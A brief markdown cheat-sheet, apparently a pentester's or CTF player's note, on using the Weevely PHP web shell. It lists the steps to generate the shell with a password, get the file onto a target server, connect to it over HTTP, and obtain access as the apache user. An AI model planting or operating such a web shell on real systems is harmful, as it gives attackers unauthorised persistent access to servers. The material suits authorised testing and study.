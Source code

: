 # Weevely
- `weevely <path> <password>` to start
- as php path
- get weevely file to target server
- `weevely http://<ip>/<path>.php <password>` to connect
- get access as apache user
